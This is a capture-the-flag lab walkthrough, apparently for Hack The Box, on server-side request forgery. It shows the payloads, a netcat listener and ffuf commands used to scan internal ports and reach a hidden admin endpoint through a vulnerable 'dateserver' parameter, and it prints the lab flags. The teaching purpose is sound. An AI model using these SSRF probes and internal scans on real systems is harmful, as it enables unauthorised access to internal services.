






# Server Side Attacks

This document summarizes core techniques for identifying and exploiting **server-side vulnerabilities**. It is intended as a practical, hands-on reference rather than an exhaustive theoretical guide.

---

## Table of Contents

- [Server Side Attacks](#server-side-attacks)
  - [Overview](#overview)
  - [Server-Side Request Forgery (SSRF)](#server-side-request-forgery-ssrf)
    - [SSRF - Internal Port Scanning](#ssrf---internal-port-scanning)
    - [SSRF - Accessing Restricted Endpoints](#ssrf---accessing-restricted-endpoints)

---

## Overview

Server-side attacks target vulnerabilities in applications or services running on the server itself. Unlike client-side attacks (such as XSS), these issues can directly impact backend systems, internal services, and sensitive infrastructure.

Common server-side vulnerabilities include:

- Server-Side Request Forgery (SSRF)
- Server-Side Template Injection (SSTI)
- Server-Side Includes (SSI) Injection
- XSLT (eXtensible Stylesheet Language Transformations) Injection

---

## Server-Side Request Forgery (SSRF)

SSRF vulnerabilities arise when an application fetches remote resources based on **user-supplied input**, typically URLs. If input validation is insufficient, an attacker may coerce the server into making arbitrary requests, including requests to:

- Attacker-controlled servers
- Internal network services
- Localhost interfaces
- Cloud metadata endpoints

If the application allows user-controlled URL schemes or protocols, exploitation may extend beyond `HTTP(S)`. 

Commonly abused schemes include:

- `http://` and `https://`
- `file://`
- `gopher://`

---

### SSRF - Internal Port Scanning

The target application provides an appointment scheduling feature.


After scheduling an appointment and intercepting the request in `Burp Suite`, we identify a POST parameter named `dateserver`. Its value is a URL, indicating that the backend fetches data from a remote resource.

```
dateserver=http://dateserver.htb/availability.php&date=2025-09-02
```


To confirm SSRF, we supply a URL pointing to a server **under our control** and listen for incoming connections:

```bash
nc -lvnp 8001
```

```bash
dateserver=http://10.10.15.190:8001/ssrf&date=2025-09-02
```


The incoming request confirms that the application is vulnerable to SSRF.

We will attempt an internal port scan of the server. But before doing so, we need to understand how the application responds to **closed ports**, so we can filter them out during fuzzing.

We instruct the server to connect to **itself** on a likely closed port:

```bash
dateserver=http://127.0.0.1:81&date=2025-09-02
```

The application responds with an error message:

```
Failed to connect to 10.129.144.135 port 81 ...
```


This message will be used as a filter during fuzzing.

We create a simple wordlist containing the first 10,000 ports:

```bash
seq 1 10000 > ports.txt
```

Using `ffuf`, we fuzz the `dateserver` parameter to identify open internal ports while filtering out closed-port responses:

```bash
ffuf -w ports.txt:FUZZ -u http://10.129.144.135/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2025-09-02" -fr "Failed to connect to"
```

The scan reveals three open internal ports:

- `80`
- `3306`
- `8000`



When directing the application to the service running on port `8000`, we successfully retrieve the flag:

```bash
dateserver=http://127.0.0.1:8000&date=2025-09-02
```

```
HTB{911fc5badf7d65aed95380d536c270f8}
```


---

### SSRF - Accessing Restricted Endpoints

We continue working with the application from the previous section. This time, the goal is to leverage the confirmed SSRF vulnerability to enumerate **restricted or hidden internal endpoints**.

Before fuzzing, it is important to understand how the application responds to non-existent resources, so we can reliably distinguish valid endpoints from invalid ones during enumeration.

We request a directory that is unlikely to exist:

```bash
dateserver=http://dateserver.htb/invalid&date=2025-09-02
```



The server responds with a standard `404 Not Found` error. 



This response will serve as our baseline and can be filtered out during fuzzing to reduce noise.

With the baseline established, we use `ffuf` to fuzz potential endpoint names through the vulnerable `dateserver parameter`. The application appends `.php`, so the wordlist entries are used accordingly.

We filter out responses that match the known `404` behavior and irrelevant word counts:

```bash
ffuf -w directory-list-2.3-small.txt:FUZZ -u http://110.129.153.47/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.php&date=2025-09-02" -fr 404 -fw 3,23 -ic
```

The scan reveals two valid internal endpoints:

- `admin`
- `availability`



We direct the application to the `admin.php` endpoint via the SSRF parameter:

```bash
dateserver=http://dateserver.htb/admin.php&date=2025-09-02
```



The request succeeds, and the application returns the flag:

```bash
HTB{61ea58507c2b9da30465b9582d6782a1}
```



---